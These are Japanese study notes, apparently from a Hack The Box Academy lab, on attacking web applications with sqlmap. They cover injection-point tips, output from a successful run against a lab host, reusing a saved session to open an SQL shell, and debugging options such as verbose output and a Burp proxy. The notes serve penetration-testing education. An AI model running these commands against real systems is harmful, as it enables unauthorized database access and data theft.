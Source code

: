 - 攻撃者として注目すべきポイント
	- Cookieやヘッダーが必要なアプリでは、正確に再現することが超重要
	- `*`で注入ポイントを限定すると、無駄な試行が減って効率的
	- JSONやXMLの中でもインジェクションは可能 → フィールドごとに確認

### 攻撃が成功したら
保存されてるセッションが保存されているディレクトリに移動
```sh
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[07:41:09] [INFO] fetched data logged to text files under '/home/htb-ac-1632385/.local/share/sqlmap/output/94.237.58.172'

┌─[us-academy-3]─[10.10.14.83]─[htb-ac-1632385@htb-yxgqrc876x]─[~]
└──╼ [★]$ cd /home/htb-ac-1632385/.local/share/sqlmap/output/94.237.58.172
```

保存したセッション情報を使って、SQLで情報を参照する
```sh
┌─[us-academy-3]─[10.10.14.83]─[htb-ac-1632385@htb-yxgqrc876x]─[~]
└──╼ [★]$ sqlmap -s *.sqlite -u <攻撃時にsqlmapの後に送ったwebページ情報> --sql-shell

```

## エラー対処法

**エラー表示の活用**
- `--parse-errors` オプションを有効にする
	- SQLMapが**データベースから返されたエラーメッセージ**を自動で解析して表示してくれる

**トラフィックログの保存**
- SQLMapに送受信したHTTPトラフィックをログファイルに保存させることもできる
```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```
- HTTPのリクエスト・レスポンスが生ログで記録されるので、「どのペイロードで反応したのか」や「WAFにブロックされていないか」などを手動で確認できる。

**詳細出力モード**
- -v オプションで、SQLMapの出力の詳細レベルを上げることができる
- 最大値は -v6 : すべてのリクエストとレスポンスが表示される
```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```

**プロキシの使用（--proxy）**
- 最後に、すべてのSQLMapトラフィックを**Burp Suite**に流すことも可能
```sql
sqlmap -u "http://..." --proxy="http://127.0.0.1:8080"
```
- Burpを通すことで、SQLMapが送っている全リクエストをGUIで観察できる
- 繰り返し実行や改変、再送信、リプレイ攻撃などの検証ができる
- 特定パラメータの手動調整もやりやすい

## 攻撃チューニング
- 通常、SQLMapは指定されたターゲットに対して「そのまま」使える設計になっている
- しかし、検出制度を高めるためのオプション調整もできる
